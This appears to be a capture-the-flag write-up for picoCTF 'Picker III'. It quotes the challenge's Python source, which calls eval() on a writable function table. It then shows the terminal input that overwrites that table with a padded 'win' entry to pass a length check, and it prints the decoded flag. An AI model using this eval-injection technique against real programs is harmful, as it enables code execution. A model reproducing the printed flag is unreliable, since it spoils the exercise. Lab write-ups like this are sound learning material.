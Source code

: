 # Description
Can you figure out how this program works to get the flag?
Connect to the program with netcat:
$ nc saturn.picoctf.net 55290
The program's source code can be downloaded here.

# Provided
-[402-picker-III.py](.prov/402-picker-III.py)

# Progress
[Part I]([400]%20Picker%20I.md) and [Part II]([401]%20Picker%20II.md)

I start the same as in Part II by looking at the Code
~~~ python
while(USER_ALIVE):
  choice = input('==> ')
  if( choice == 'quit' or choice == 'exit' or choice == 'q' ):
    USER_ALIVE = False
  elif( choice == 'help' or choice == '?' ):
    help_text()
  elif( choice == 'reset' ):
    reset_table()
  elif( choice == '1' ):
    call_func(0)
  elif( choice == '2' ):
    call_func(1)
  elif( choice == '3' ):
    call_func(2)
  elif( choice == '4' ):
    call_func(3)
  else:
    print('Did not understand "'+choice+'" Have you tried "help"?')
~~~
That's way different... fine i will do it as in Part I
~~~
==> 
~~~
Only the arrow this time...
~~~
==> 
Did not understand "" Have you tried "help"?
==> help

This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:

1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==>
~~~
That limits the options quite a bit.... Back to the code:
~~~python
def help_text():
  print(
  '''
This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:
  '''
  )
  print_table()
~~~
This doesn't do shit
~~~python
def reset_table():
  global func_table

  # This table is formatted for easier viewing, but it is really one line
  func_table = \
'''\
print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
'''
~~~
Neither does this....
~~~python
def call_func(n):
  """
  Calls the nth function in the function table.
  Arguments:
    n: The function to call. The first function is 0.
  """
  
  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return
  
  # Check n
  if( n < 0 ):
    print('n cannot be less than 0. Aborting...')
    return
  elif( n >= FUNC_TABLE_SIZE ):
    print('n cannot be greater than or equal to the function table size of '+FUNC_TABLE_SIZE)
    return
  
  # Get function name from table
  func_name = get_func(n)
  
  # Run the function
  eval(func_name+'()')
~~~
This does tho...

So every legal n can call a function.... probably determined in `get_func(n)`
~~~python
def get_func(n):
  global func_table
  
  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return
  
  # Get function name from table
  func_name = ''
  func_name_offset = n * FUNC_TABLE_ENTRY_SIZE
  for i in range(func_name_offset, func_name_offset+FUNC_TABLE_ENTRY_SIZE):
    if( func_table[i] == ' '):
      func_name = func_table[func_name_offset:i]
      break
  
  if( func_name == '' ):
    func_name = func_table[func_name_offset:func_name_offset+FUNC_TABLE_ENTRY_SIZE]
  
  return func_name
~~~
In short it calls a function from the `func_table`, which is a variable and variables can be edited
~~~
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "win"
==> 1
Table corrupted. Try entering 'reset' to fix it
~~~
OK it's not that simple. The only time times this messange can appear is here:
~~~ python
if( not check_table() ):
  print(CORRUPT_MESSAGE)
~~~python
def check_table():
  global func_table
  
  if( len(func_table) != FUNC_TABLE_ENTRY_SIZE * FUNC_TABLE_SIZE):
    return False
  
  return True
~~~
So... 4 entries 32 chars each....
editing the original could work
~~~
print_table                     \
read_variable                   \
write_variable                  \
win                             \
~~~
Now as one line:
~~~
"print_table                     read_variable                   write_variable                  win                             "
~~~
Let's see:
~~~
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "print_table                     read_variable                   write_variable                  win                             "
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d
~~~
works like a charm. Now the same decoding process with [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=MHg3MCAweDY5IDB4NjMgMHg2ZiAweDQzIDB4NTQgMHg0NiAweDdiIDB4MzcgMHg2OCAweDMxIDB4MzUgMHg1ZiAweDMxIDB4MzUgMHg1ZiAweDc3IDB4NjggMHgzNCAweDM3IDB4NWYgMHg3NyAweDMzIDB4NWYgMHg2NyAweDMzIDB4MzcgMHg1ZiAweDc3IDB4MzEgMHgzNyAweDY4IDB4NWYgMHg3NSAweDM1IDB4MzMgMHg3MiAweDM1IDB4NWYgMHgzMSAweDZlIDB4NWYgMHg2MyAweDY4IDB4MzQgMHg3MiAweDY3IDB4MzMgMHg1ZiAweDYxIDB4MzEgMHgzOCAweDM2IDB4NjYgMHgzOSAweDYxIDB4NjMgMHg3ZA) in Part I:
~~~
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_a186f9ac}
~~~

